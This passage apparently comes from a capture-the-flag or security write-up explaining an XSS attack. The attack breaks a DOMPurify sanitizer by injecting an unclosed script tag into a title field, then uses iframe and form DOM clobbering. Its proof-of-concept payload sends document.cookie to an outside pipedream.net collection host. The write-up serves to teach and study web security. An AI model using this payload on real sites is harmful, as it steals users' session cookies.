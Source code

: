   4. We can cause an error within the `try` block by disabling the import for `DOMPurify` since this line of code in the `try` block `content = DOMPurify.sanitize(content, {SAFE_FOR_JQUERY: true}).toString();` requires the library to successfully execute.![image-20210808155606083](images/image-20210808155606083.png)

  5. Inject an XSS payload in the `title` field using the payload below. This makes it such that all text after the script tag is ignored (included within it is the DOMPurify import) due to the behaviour in how the browser parses incompleted HTML tags.

     ```html
     </h2><script>
     ```

     ![image-20210731123321512](./images/image-20210731123321512.png)

5. For our proof of concept, note that the `content` field is appended in an HTML element with `id=tk`. We can simply inject an iframe in the `title` field containing the `id` and append the unsanitized XSS payload from the `content` field. Note that we are using an iframe tag since the `content` input is appended in the `srcdoc` attribute of a HTML element.

    ```html
    title=<iframe id="tk"></iframe><script>
    content=test<form id="rp"><input name="ownerDocument"/><script>fetch("https://enxju6dmctwrg.x.pipedream.net/"+document.cookie);</script></form>
    ```

    ![image-20210808160009151](images/image-20210808160009151.png)
